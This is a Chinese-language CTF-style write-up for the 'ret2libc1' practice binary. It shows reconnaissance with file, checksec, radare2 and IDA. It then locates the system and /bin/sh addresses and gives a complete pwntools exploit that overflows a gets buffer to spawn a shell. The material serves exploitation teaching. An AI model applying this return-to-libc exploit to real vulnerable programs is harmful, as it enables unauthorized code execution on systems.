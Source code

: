 # ret2libc1
## 執行結果

會自動印出 " RET2LIBC >_<"

接著輸入任意字串

結束執行

![image](https://user-images.githubusercontent.com/22366572/148839660-8d8a26ce-cc93-417c-8cb0-e9650c19ffdb.png)

## 分析步驟
### Step 1 : 獲得檔案的基本資料

指令: ```file [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148839990-0c63cbd9-9962-4996-ab85-9c7076b701e3.png)

可以看到它是在 GNU/Linux 2.6.24 上編譯的，dynamically linked (動態連接的)，ELF 32-bit LSB executable

### Step 2 : 看開啟了哪些保護機制

指令: ```checksec [執行檔名]```

![image](https://user-images.githubusercontent.com/22366572/148840299-0e68c03b-1981-44d4-aca7-99bba7bc32e1.png)

可以看到 **NX 是開啟的**

NX enabled 如果開啟就代表 **stack 中的數據沒有執行權限**，所以當攻擊者在 stack 上部屬自己的 shellcode 並觸發時，只會直接造成程式崩潰，**但是可以利用 ROP 這種方式繞過**

### Step 3 : 做逆向工程

1. 使用 radare2 做逆向工程

main逆向指令:
```
r2 ret2libc1
aa
afl
s main
VV
```

![image](https://user-images.githubusercontent.com/22366572/148843327-fd3feff5-73bf-44aa-a282-3ce671064e41.png)
![image](https://user-images.githubusercontent.com/22366572/148843405-e292c8ce-3af2-4cd8-bbe1-61f8a34469c3.png)

main 組語:

![image](https://user-images.githubusercontent.com/22366572/148843714-b63adba8-ff46-4f09-aeb1-58c6bfb0922c.png)
![image](https://user-images.githubusercontent.com/22366572/148843805-075b7465-4668-4467-9469-d3ba5e8c1483.png)

可以發現有 call sys.imp.gets，這會取得輸入的字串。因為是 dynamically linked (動態連接的)，那就會用一個程序來調動動態連接庫。這裡會用 sys / system 指令來執行系統裡的指令，接著我們需要找找是否有可執行的指令路徑 (/bin/sh)

08048460
08048720

### Step 4 : 找到 system 和 /bin/sh 的位置

使用IDA

**/bin/sh 的位置:**

![image](https://user-images.githubusercontent.com/22366572/148924732-63682ab5-386a-4308-8b8b-959053b8639e.png)

/bin/sh 的地址: 0x08048720

**system 的位置:**

![image](https://user-images.githubusercontent.com/22366572/148925253-7d27c39c-0253-447a-9ed8-d3772636d1f9.png)

點進去可以找到地址:

![image](https://user-images.githubusercontent.com/22366572/148925326-54bef09f-6fac-4dce-b644-3b06717ada63.png)

system 的地址: 0x08048460

由 pateern 的 offset 可以確定偏移量 = 112

接著我們要做的是控制程序返回到 system 的地址，然後調用 /bin/sh


### Step 6 : 撰寫 exploit code

**Exploit code :**

(檔名: exp-ret2libc1.py)

```
from pwn import *

r = process('./ret2libc1')

sys_addr = 0x08048460
binsh_addr = 0x08048720

payload = 112*'A' + p32(sys_addr) + 4*'A' + p32(binsh_addr)
r.sendline(payload)
r.interactive()
```

後面的4 * 'A' 其實是system的返回地址，是隨便設的，主要是後面的參數bin/sh地址要正確。

棧中ebp一下的部分從上到下依次是（低地址到高地址）：

  * 返回地址（覆蓋為sys的地址）
  * system的返回地址（隨便設）
  * system的參數（/bin/sh）

## 參考資料

1. https://blog.csdn.net/ATFWUS/article/details/104563942
2. https://www.bilibili.com/video/BV1Vg4y1z7oF/
